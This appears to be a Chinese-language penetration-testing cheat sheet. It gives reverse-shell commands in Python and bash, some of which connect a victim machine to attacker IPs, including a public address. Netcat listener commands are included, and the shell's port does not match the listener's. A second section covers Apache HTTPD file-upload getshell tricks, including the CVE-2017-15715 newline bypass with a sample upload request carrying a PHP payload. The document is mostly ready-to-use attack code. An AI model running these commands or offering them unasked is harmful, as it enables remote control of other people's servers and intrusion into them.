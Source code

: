### python反弹shell
```
代码
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.56.104",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])

受害机执行
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.104",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

攻击机执行
nc -lvvp 5555

交互shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

### bash反弹shell
```
攻击机
nc -lvvp 4444

受害机
bash -i >& /dev/tcp/47.98.229.211/4444 0>&1
```


## 漏洞基础
> **Apache、** 

### Apache漏洞
> **Apache相关漏洞概述** 

#### Apache_HTTPD_多后缀解析漏洞
```
条件：httpd.conf中配置如下：AddHandler application/x-httpd-php .php

那就可以通过上传文件名为xxx.php.jpg或xxx.php.jpeg的文件进行getshell

```
#### Apache_HTTPD_换行解析漏洞
```
条件：2.4.0~2.4.29版本（CVE-2017-15715），以hex形式在数据包中的xxx.php后添加0a，放包后浏览器访问 xxx.php%0a 进行getshell


上传的数据包：
------WebKitFormBoundary38LloOXE0KEPGEGk
Content-Disposition: form-data; name="file"; filename="1.jpg"
Content-Type: application/octet-stream

<?php
phpinfo();  
?>
------WebKitFormBoundary38LloOXE0KEPGEGk
Content-Disposition: form-data; name="name"

xxx.php
```